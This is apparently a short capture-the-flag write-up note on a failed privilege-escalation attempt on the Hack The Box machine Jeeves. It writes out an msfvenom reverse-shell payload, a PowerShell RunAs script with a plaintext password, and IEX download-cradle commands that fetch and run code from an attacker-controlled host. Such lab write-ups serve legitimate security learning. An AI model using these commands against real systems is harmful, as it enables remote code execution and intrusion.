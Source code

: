# RunAs Administrator - Failed password reuse
First we get a reverse shell.exe
```shell
root@Kali:~/HTB/Jeeves/PE# msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.14.78 LPORT=443 -f exe -o shell443.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell443.exe
```
Then prepare RunAs.ps1 to be served over Python server
```shell
root@Kali:~/HTB/Jeeves/PE# cat RunAs.ps1 
$secpasswd = ConvertTo-SecureString "02yxqkinqhce" -AsPlainText -Force 
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
Start-Process -FilePath "powershell.exe" -ArgumentList "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.78/rshell.ps1')" -Credential $mycreds
```
Lastly invoke it on the target with PS
```shell
PS X:\> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.78/RunAs.ps1')
rshell : This command cannot be run due to the error: The user name or password is incorrect.
At line:90 char:1
+ rshell -Reverse -IPAddress 10.10.14.78 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,rshell
```
It didn't work.